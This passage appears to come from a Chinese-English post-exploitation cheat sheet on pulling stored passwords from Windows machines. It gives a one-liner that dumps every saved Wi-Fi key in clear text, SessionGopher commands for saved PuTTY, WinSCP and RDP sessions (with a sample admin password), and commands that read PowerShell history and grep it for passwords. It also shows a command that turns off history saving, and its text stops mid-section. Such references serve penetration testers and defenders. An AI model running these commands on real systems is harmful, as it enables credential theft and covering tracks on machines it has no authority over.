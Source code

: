 Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```
注意，该一句话仅对英文系统有用，中文系统需要修改匹配字段。

### 便笺中存放的密码
The sticky notes app stores it's content in a sqlite db located at C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

### 服务中存放的密码
Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher

```bash
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
### Key Manager 中存放的密码
This software will display its output in a GUI

下面的命令将打开 windows 凭据管理器。
```bash
rundll32 keymgr,KRShowKeyMgr
```
### Powershell 历史记录中存放的密码
```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

关闭 ps 历史记录
```bash
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```

### Powershell Transcript 文件
```bash
C:\Users\<USERNAME>\Documents\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
C:\Transcripts\<DATE>\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
```

### 备用数据流（ADS）中的密码
ADS 是添加到新技术文件系统（也称为 NT 文件系统 (NTFS)）中的功能，以提高与 Macintosh 分层文件系统 (HFS) 的可比性。
